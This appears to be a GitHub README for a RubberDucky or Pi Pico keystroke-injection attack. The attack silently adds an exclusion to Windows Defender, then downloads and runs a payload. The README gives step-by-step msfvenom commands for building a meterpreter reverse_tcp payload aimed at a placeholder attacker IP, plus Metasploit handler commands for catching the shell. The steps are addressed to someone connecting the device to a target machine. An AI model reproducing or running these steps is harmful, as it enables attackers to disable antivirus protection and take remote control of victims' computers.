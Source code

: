 Windows Defender ExclusionPath + ReverseShell
=============================================

This scrip will run PowerShell as administrator privilege and add directory of current User into Microsoft Windows Defender Exclusion. Then PowerShell will download payload file and run the payload. Last, exit the PowerShell.

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o windowsx64.exe
  
2. Upload your payload
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/%5BWin10%5D%20Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.png)
